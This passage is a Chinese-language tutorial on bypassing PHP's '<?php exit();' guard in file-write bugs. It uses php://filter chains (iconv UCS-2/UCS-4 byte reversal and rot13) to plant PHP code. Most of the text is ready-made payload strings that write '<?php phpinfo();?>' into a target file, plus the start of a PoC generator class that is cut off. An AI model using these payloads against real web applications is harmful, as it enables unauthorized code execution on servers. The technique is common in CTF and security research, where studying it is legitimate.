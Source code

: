 

**通过UCS-2或者UCS-4的方式，对目标字符串进行2/4位一反转，也就是说构造的需要是UCS-2或UCS-4中2或者4的倍数，不然不能进行反转**



构造payload

```php
echo iconv("UCS-4LE","UCS-4BE",'aa<?php phpinfo();?>');
?<aa phpiphp(ofn>?;)
```





payload

```php
$a='php://filter//convert.iconv.UCS-2LE.UCS-2BE|?<hp phpipfn(o;)>?/resource=Cyc1e.php';

$a='php://filter//convert.iconv.UCS-4LE.UCS-4BE|xxx?<aa phpiphp(ofn>?;)/resource=Cyc1e.php';
#由于是4位一反转，所以需要保证?<aa phpiphp(ofn>?;)之前字符个数是4的倍数，所以需要补3个字符
```









### 4. UCS-2组合rot13

```php
$a = 'php://filter/write=convert.iconv.UCS-2LE.UCS-2BE|string.rot13|x?<uc cucvcsa(b;)>?/resource=drom.php'; #同样需要补位，这里补了一个x
```



基础poc：

```php
<?php

class Generate{
    public $prefix = "<?php exit();";
    public $poc = "<?php phpinfo();?>";
    public $base = "php://filter/write=";
    public $end = "/resource=drom.php";

    public $string = [
        'rot13' => 'str_rot13',
        'toupper' => 'strtoupper',
        'tolower' => 'strtolower',
        'strip_tags' => 'strip_tags',
    ];

    public $zlib = [
        'deflate',
        'inflate'
    ];

    public $bzip2 = [
        'compress',
        'decompress'
    ];

    public $convert = [
        'UCS-4',
        'UCS-4BE',
        'UCS-2' ,
        'UCS-2BE',
```